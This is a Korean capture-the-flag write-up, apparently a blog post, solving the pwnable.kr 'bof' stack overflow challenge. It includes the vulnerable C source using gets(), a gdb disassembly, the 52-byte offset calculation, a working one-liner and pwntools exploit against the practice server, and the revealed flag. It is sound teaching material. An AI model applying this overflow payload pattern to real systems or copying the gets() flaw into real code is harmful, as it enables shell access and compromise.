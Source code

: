 ```yaml
---
title: "[pwnable.kr][Toddler] bof"
tags: [pwnable.kr, Toddler's Bottle, writeup]
author: eli_ez3r
key: 20180913
modify_date: 2018-09-13
article_header:
  type: cover
  image:
    src: /assets/img/write-up/pwnable_kr.png
---
```


## keyword : Stack Canary

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

### 0x01. Staic Analysis

main에서 func함수를 호출하는데 인자 값으로 `0xdeadbeef`값을 전달한다.

func 함수에서 key값으로 `0xdeadbeef`를 받고, 사용자로 부터 입력 값을 받아 `overflowme` 배열에 저장한다.

<u>이때 overflowme배열은 32byte크기지만, gets함수로 입력을 받아 buffer overflow가 발생한다.</u>

그리고 key값이 `0xcafebabe` 인지 체크하고 맞으면 쉘을 실행한다.

**즉, buffer overflow를 시켜 func함수의 인자 값을 `0xcafebabe`로 변조하면 문제가 풀린다.**

-----

### 0x02. Dynamic Analysis

이제 func함수의 인자 값이 들어가는 스택 주소와, overflowme 배열의 주소의 거리를 구해야한다.

```
gdb-peda$ pdisas func
Dump of assembler code for function func:
   0x0000062c <+0>:     push   ebp
   0x0000062d <+1>:     mov    ebp,esp
   0x0000062f <+3>:     sub    esp,0x48
   0x00000632 <+6>:     mov    eax,gs:0x14
   0x00000638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:    xor    eax,eax
   0x0000063d <+17>:    mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:    call   0x645 <func+25>
   0x00000649 <+29>:    lea    eax,[ebp-0x2c]
   0x0000064c <+32>:    mov    DWORD PTR [esp],eax
   0x0000064f <+35>:    call   0x650 <func+36>
   0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:    jne    0x66b <func+63>
   0x0000065d <+49>:    mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:    call   0x665 <func+57>
   0x00000669 <+61>:    jmp    0x677 <func+75>
   0x0000066b <+63>:    mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:    call   0x673 <func+71>
   0x00000677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:    je     0x688 <func+92>
   0x00000683 <+87>:    call   0x684 <func+88>
   0x00000688 <+92>:    leave
   0x00000689 <+93>:    ret
End of assembler dump.
```

`func+29` 부분을 보면 oeverflowme 배열의 주소를 eax에 저장하는데, `overflowme` 배열의 주소는 `ebp-0x2c` 이다. (0x2c = 44)

그리고 `func+40` 부분을 보면 func함수의 인자 값과 `0xcafebabe`와 비교하는데 인자 값의 주소는 `ebp+0x8` 이다.

**따라서 overflowme 배열과 key값(func함수의 인자 값)의 주소의 거리는 52byte가 된다.**

-----

### 0x03. Exploit

그럼 이제 52byte의 쓰레기 값을 넣고, `0xcafebabe` 값을 넣어 `0xdeadbeef` 값을 변조시키자.

```
root@ubuntu:~/pwnable/bof# (python -c 'print "A"*52+"\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000
cat flag
daddy, I just pwned a buFFer :)
```

끄읏 :)

-----

##### python

```python
from pwn import *

conn = remote("pwnable.kr", 9000)

payload = "A"*52
payload += p32(0xcafebabe)

conn.sendline(payload)
conn.interactive()
```

```
root@ubuntu:~/pwnable/bof# python ex.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls -l
total 3748
-r-xr-x--- 1 root bof     7348 Sep 12  2016 bof
-rw-r--r-- 1 root root     308 Oct 23  2016 bof.c
-r--r----- 1 root bof       32 Jun 11  2014 flag
-rw------- 1 root root 3812010 Nov 14 21:45 log
-rw-r--r-- 1 root root       0 Oct 23  2016 log2
-rwx------ 1 root root     760 Sep 11  2014 super.pl
$ cat flag
daddy, I just pwned a buFFer :)
```

-----